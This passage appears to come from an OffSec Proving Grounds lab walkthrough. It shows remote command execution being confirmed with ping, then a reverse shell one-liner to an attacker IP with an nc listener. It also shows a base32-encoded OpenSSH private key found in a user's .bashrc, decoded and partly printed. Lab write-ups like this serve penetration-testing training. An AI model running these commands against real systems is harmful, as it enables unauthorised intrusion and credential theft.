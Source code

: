 Next, we’ll run `ping -c 3 192.168.118.8`, making sure to use our proper IP address. If we receive ICMP requests, the `ping` command was executed properly on the remote machine.

![Wireshark](https://offsec-platform.s3.amazonaws.com/walkthroughs-images/PG_Practice_45_image_2_frY3S0Zg.png)

It works! Now, let’s set up a listener on port 21 and send the  command for a reverse shell.

```
sh -i >& /dev/tcp/192.168.118.8/21 0>&1
kali@kali:~$ sudo nc -lvnp 21
listening on [any] 21 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.202] 43786
sh: cannot set terminal process group (300): Inappropriate ioctl for device
sh: no job control in this shell

sh-5.0$ whoami
kathleen
```

## Escalation

### Private Key Discovery

As we consider escalation options, we discover something very out of the ordinary in the user’s **.bashrc** file:

```
sh-5.0$ pwd
/home/kathleen

sh-5.0$ cat .bashrc
#
# ~/.bashrc
#

# If not running interactively, don't do anything
[[ $- != *i* ]] && return

...

# alias FUWS2LJNIJCUOSKOEBHVARKOKNJUQICQK ... S2LIK
```

Let’s dump this string into a file so we can play around with it.

```
kali@kali:~$ echo "FUWS2LJNIJCUOSKOEB...LECVCFEBFUKWJNFUWS" > base.file
```

When we try to decrypt this file using base64, it produces binary  output. However, decrypting with base32 reveals an OpenSSH private key!

```
kali@kali:~$ cat base.file | base32 -d 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmkeWvv4uMU4Akyxj++zgFXrvcY6bxn5F9tqO168ib0sapRGij/VV
cPWlQTcNn4pAqXsnD06RF41bVN6Jd8mFCZSwvGaOiUnPPqxUn5LVdh4WiONVNFGRqG+eJY
3xNoLjhjDAf2T/ToOJ4ggy0NDQ3x9mW2wENIp36cGCEk1Xvx2pn2DxYNRsABkNwMxUowV9
nY6pvUJmo1ELKP50CJXdzw9xDiYshwbYxMvh4xzjNuoDtWXQiNU3d8YH44bJmRtNJz8JBX
HZnDOS9bt33DXEacNbXDnBHqAL6YyyGnOookYZnEs43wkt2NQh9nHq51+Q6ADv+xcGTy0g
Ni5aztXnYyJZWjSF6YjxjdAxvkw0U/KnrJrpitGX85bp0qxzdFtx4QHVlYFYsMT93Ub/jd
izVusvy5Nu+lKqI+HhQsuUv1Oj1XV75G94XLqA4VX7VPq8o0wGopUD00rgsjCfROZSTf6m
ssZhZ0tn4RVAIoqJasPcIGFbE3N8EzJ7f3VCJUKDAAAFgIEOwwKBDsMCAAAAB3NzaC1yc2
EAAAGBAJpHlr7+LjFOAJMsY/vs4BV673GOm8Z+RfbajtevIm9LGqURoo/1VXD1pUE3DZ+K
QKl7Jw9OkReNW1TeiXfJhQmUsLxmjolJzz6sVJ+S1XYeFojjVTRRkahvniWN8TaC44YwwH
9k/06DieIIMtDQ0N8fZltsBDSKd+nBghJNV78dqZ9g8WDUbAAZDcDMVKMFfZ2Oqb1CZqNR
```